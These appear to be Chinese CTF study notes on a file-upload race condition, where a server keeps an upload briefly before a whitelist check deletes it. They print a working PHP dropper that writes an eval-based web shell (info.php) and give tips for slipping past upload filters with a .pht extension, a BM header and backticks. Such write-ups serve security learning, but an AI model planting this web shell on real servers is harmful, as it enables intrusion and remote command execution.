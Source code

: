 漏洞原理：先将上传的文件保存在服务器中，然后再进行对比白名单，如果不在白名单就删除，所以我们可以一边疯狂上传一边疯狂访问执行跳转木马

\<?php fputs(fopen(\"info.php\", \"w\"), \'\<?php
\@eval(\$\_POST\[\"x\"\]);?\>\'); ?\>

这个跳转木马就是访问内容为这个的木马就会生产名字为info.php的木马文件内容为后面的内容从而产生木马。

**CTF例题**

过滤了文件后缀名，mime类型，文件头，文件内容而且限制文件长度为15个字节及以下。

测试下来pht可以被正常解析，利用BM头和php中的反引号直接读取flag。

![截图.png](D:\tools\Tools\Obsidian\sjqyyds\sjqyyds17\附件\Web/media/image23.png){width="5.760416666666667in"
height="4.409590988626421in"}
